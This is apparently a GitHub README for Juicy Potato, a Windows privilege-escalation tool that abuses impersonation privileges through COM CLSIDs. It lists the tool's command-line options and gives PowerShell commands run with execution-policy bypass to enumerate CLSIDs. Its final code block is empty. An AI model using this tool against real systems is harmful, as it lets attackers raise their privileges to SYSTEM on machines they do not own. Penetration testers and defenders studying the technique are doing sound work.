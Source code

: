 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## Checking CLSIDs
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
### get list CLSIDs and APIDs
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
### get list CLSIDs and APIDs
```

```

















